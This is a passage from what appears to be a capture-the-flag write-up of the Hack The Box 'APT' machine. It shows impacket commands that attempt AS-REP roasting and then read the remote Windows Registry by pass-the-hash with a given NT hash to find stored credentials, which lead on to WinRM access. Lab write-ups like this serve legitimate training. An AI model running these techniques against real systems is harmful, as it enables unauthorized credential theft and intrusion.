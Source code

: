 ```bash
```

<br />
<img src="{{ site.img_path }}/apt_writeup/APT_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I try to get a **TGT** without knowing my password with `GetNPUsers.py`, I don't succeed because **Kerberos** requires me to be authenticated. I don't have many ideas left to continue listing, so thanks to the ever-present help of **HackTricks**, since I have a username and its hash I can read the **Windows Registry** remotely using **[Reg.py](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb){:target="_blank"}**. So in my machine I have `impacket-reg` and I can begin to read the different **Hives** of the Registry, I must be careful because I must put double `\` in some cases, because it deletes one and generates me a reading error. After a long time of exploring it finds a very strange key because its name is of the Software that is offered in the port **80** of the **HTTP** protocol, if I read its content I find a username and its password. I immediately validate it with `crackmapexec` and the best thing is that I can access the victim machine through the **WinRM** protocol with `evil-winrm`.

> **[GetNPUsers.py](https://tools.thehacker.recipes/impacket/examples/getnpusers.py){:target="_blank"}** can be used to retrieve domain users who have **"Do not require Kerberos preauthentication"** <ins>set</ins> and ask for their **TGTs** without knowing their passwords. It is then possible to attempt to crack the session key sent along the ticket to retrieve the user password.

```bash
impacket-GetNPUsers htb.local/henry.vinson -no-pass                                     # :(
impacket-GetNPUsers htb.local/henry.vinson -hashes :e53d87d42adaa3ca32bdb34a876cbffb    # :(

impacket-reg --help
#   --> target  [[domain/]username[:password]@]<targetName or address>
#   --> query   Returns a list of the next tier of subkeys and entries that are located under a specified subkey in the registry.
#   --> -hashes LMHASH:NTHASH

impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU
# Don't use -s <-- is crazy
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\Console
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName 'HKCU\Control Panel'
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\Environment

impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\Console
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\\Console
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\\Environment
impacket-reg htb.local/henry.vinson@apt -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKCU\\Network
```
